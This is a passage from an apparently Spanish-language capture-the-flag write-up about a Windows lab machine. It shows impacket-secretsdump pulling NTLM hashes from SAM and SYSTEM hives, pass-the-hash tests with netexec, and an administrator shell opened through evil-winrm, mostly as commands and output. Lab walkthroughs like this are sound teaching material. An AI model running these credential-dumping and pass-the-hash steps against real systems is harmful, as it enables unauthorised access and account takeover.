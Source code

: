 Ahora podemos con `impacket-secretsdump` para dumpear el archivo SAM y obtener los hashes NTLM de los usuarios del sistema.
```console
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Target system bootKey: 0x827cc782adafc2fd1b7b7a48da1e20ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8afe1e889d0977f8571b3dc0524648aa:::
administrator:1002:aad3b435b51404eeaad3b435b51404ee:41186fb28e283ff758bb3dbeb6fb4a5c:::
p.smith:1003:aad3b435b51404eeaad3b435b51404ee:2cf4020e126a3314482e5e87a3f39508:::
f.miller:1004:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
m.davis:1005:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
j.wilson:1006:aad3b435b51404eeaad3b435b51404ee:a6cf5ad66b08624854e80a8786ad6bac:::
[*] Cleaning up...
```

## Pass The Hash & evil-winrm -> Privilege Escalation
Podemos hacer Pass The Hash y vemos que la cuenta `Administrador` se ha deshabilitado por alguna razón, quiero pensar que ha sido un acto de buena fe del creador de la máquina ya que el nombre de usuario de esta cuenta cambia dependiendo del idioma configurado en Windows, por eso también existe una cuenta llamada `administrator`, para hacer la máquina algo mas "universal".
```console
nxc smb 192.168.2.10 -u Administrador -H '31d6cfe0d16ae931b73c59d7e0c089c0'
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\Administrador:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
```

Pero podemos ver que al hacer Pass The Hash para la cuenta `administrator` `netexec` nos reporta `Pwn3d!` por lo cual, es una cuenta que pertenece al grupo de Administradores del Sistema.
```console
nxc smb 192.168.2.10 -u Administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\Administrator:41186fb28e283ff758bb3dbeb6fb4a5c (Pwn3d!)
```

Entonces podemos conseguir una consola como `administrator` haciendo Pass The Hash con `evil-winrm`
```console
evil-winrm -i 192.168.2.10 -u administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrator\Documents> whoami
hosting\administrator
```
